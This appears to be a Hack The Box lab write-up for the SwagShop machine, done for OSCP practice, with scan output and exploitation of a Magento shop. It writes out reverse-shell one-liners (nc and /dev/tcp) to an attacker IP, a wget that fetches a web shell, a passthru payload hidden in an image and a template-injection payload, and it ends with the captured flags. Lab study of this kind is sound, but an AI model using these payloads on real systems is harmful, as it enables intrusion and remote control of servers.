







# SWAGSHOP / OSCP PREP



## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgTCefp89MPJm2oaJqietdslSBur+eCMVQRW19iUL2DQSdZrIctssf/ws4HWN9DuXWB1p7OR9GWQhjeFv+xdb8OLy6EQ72zQOk+cNU9ANi72FZIkpD5A5vHUyhhUSUcnn6hwWMWW4dp6BFVxczAiutSWBVIm2YLmcqwOEOJhfXLVvsVqu8KUmybJQWFaJIeLVHzVgrF1623ekDXMwT7Ktq49RkmqGGE+e4pRy5pWlL2BPVcrSv9nMRDkJTXuoGQ53CRcp9VVi2V7flxTd6547oSPck1N+71Xj/x17sMBDNfwik/Wj3YLjHImAlHNZtSKVUT9Ifqwm973YRV9qtqtGT
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEG18M3bq7HSiI8XlKW9ptWiwOvrIlftuWzPEmynfU6LN26hP/qMJModcHS+idmLoRmZnC5Og9sj5THIf0ZtxPY=
|   256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINmmpsnVsVEZ9KB16eRdxpe75vnX8B/AZMmhrN2i4ES7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
```

## PORT 80 ENUMERATION

### GOBUSTER ENUMERATION

```text
/index.php (Status: 302)
/media (Status: 301)
/clear.php (Status: 200)
/includes (Status: 301)
/lib (Status: 301)
/install.php (Status: 200)
/app (Status: 301)
/js (Status: 301)
/api.php (Status: 200)
/shell (Status: 301)
/skin (Status: 301)
/cron.php (Status: 200)
/var (Status: 301)
/errors (Status: 301)
/mage (Status: 200)
/server-status (Status: 403)
```

### NIKTO

```text
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: http://swagshop.htb/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Magento Go CMS
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OSVDB-3268: /app/: Directory indexing found.
+ OSVDB-3092: /app/: This might be interesting...
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3268: /lib/: Directory indexing found.
+ OSVDB-3092: /lib/: This might be interesting...
+ OSVDB-3092: /install.php: install.php file found.
+ OSVDB-3092: /LICENSE.txt: License file found may identify site software.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /RELEASE_NOTES.txt: A database error may reveal internal details about the running database.
+ /RELEASE_NOTES.txt: Magento Shop Changelog identified.
+ /skin/adminhtml/default/default/media/editor.swf: Several Adobe Flash files that ship with Magento are vulnerable to DOM based Cross Site Scripting (XSS). See http://appcheck-ng.com/unpatched-vulnerabilites-in-magento-e-commerce-platform/
+ /skin/adminhtml/default/default/media/uploader.swf: Several Adobe Flash files that ship with Magento are vulnerable to DOM based Cross Site Scripting (XSS). See http://appcheck-ng.com/unpatched-vulnerabilites-in-magento-e-commerce-platform/
+ /skin/adminhtml/default/default/media/uploaderSingle.swf: Several Adobe Flash files that ship with Magento are vulnerable to DOM based Cross Site Scripting (XSS). See http://appcheck-ng.com/unpatched-vulnerabilites-in-magento-e-commerce-platform/
+ 7915 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2021-01-31 21:46:07 (GMT-5) (629 seconds)
```

* MAGENTO SHOP





## EXPLOIT

[https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py)





[https://www.exploit-db.com/exploits/37811](https://www.exploit-db.com/exploits/37811)

#### TRYS

```text
python2 magento.py http://10.129.1.182 \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 2332 >/tmp/f\"  


python2 magento.py http://10.129.1.182/index.php/admin \"wget -O /var/www/html/shell/shell.php http://10.10.14.72:8000/shell.php\"

echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 2332 >/tmp/f");' >> shell.php.png

https://0xrick.github.io/hack-the-box/swagshop/

python 37811.py 'http://10.129.1.182/index.php/admin' 'bash -c "bash -i >& /dev/tcp/10.10.14.72/2332 0>&1"'
```

### THE WINNER

[https://fubared.net/htb/machines/htb-swagshop.html](https://fubared.net/htb/machines/htb-swagshop.html)

[https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)

```text
{{block type='core/template' template='../../../../../../media/catalog/category/shell.jpg'}}
```

## PRIVESC






## FLAGS

### USER

```text
a448877277e82f05e5ddf9f90aefbac8
```

### ROOT

```text
c2b087d66e14a652a3b86a130ac56721
```

